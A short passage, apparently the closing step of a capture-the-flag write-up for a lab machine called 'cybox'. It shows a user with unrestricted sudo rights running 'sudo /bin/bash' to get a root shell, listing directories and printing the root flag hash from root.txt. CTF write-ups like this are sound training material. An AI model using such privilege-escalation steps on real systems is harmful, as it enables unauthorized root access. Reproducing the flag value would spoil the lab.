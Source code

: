 ```
    (ALL : ALL) ALL
sudo@cybox:/opt$ sudo /bin/bash
root@cybox:/opt# ls
bitnami  register  registerlauncher
root@cybox:/opt# cd /root
root@cybox:/root# ls
Maildir  root.txt
``` 
# Root Flag
```
root@cybox:/root# cat root.txt 
4c0183fdd736e2b8fb3f57ddbfa8ce36
```
